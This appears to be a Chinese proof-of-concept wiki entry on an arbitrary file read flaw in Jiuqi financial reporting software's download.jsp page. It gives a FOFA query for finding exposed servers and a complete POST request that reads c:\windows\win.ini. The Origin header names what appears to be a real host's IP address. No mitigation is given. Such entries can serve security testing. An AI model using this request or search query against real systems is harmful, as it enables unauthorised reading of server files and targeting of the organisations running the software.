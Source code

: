 # 久其财务报表 download.jsp 任意文件读取漏洞

## 漏洞描述

久其财务报表 download.jsp 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的信息

## 漏洞影响

> [!NOTE]
>
> 久其财务报表

## FOFA

> [!NOTE]
>
> body="/netrep/"

## 漏洞复现

登录路径如下

![image-20210607211411908](http://wikioss.peiqi.tech/vuln/image-20210607211411908.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

发送请求包

```
POST /netrep/ebook/browse/download.jsp HTTP/1.1
Host: 
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://114.251.113.53:7002
Content-Type: application/x-www-form-urlencoded

jpgfilepath=c:\windows\win.ini
```

![image-20210607211527626](http://wikioss.peiqi.tech/vuln/image-20210607211527626.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)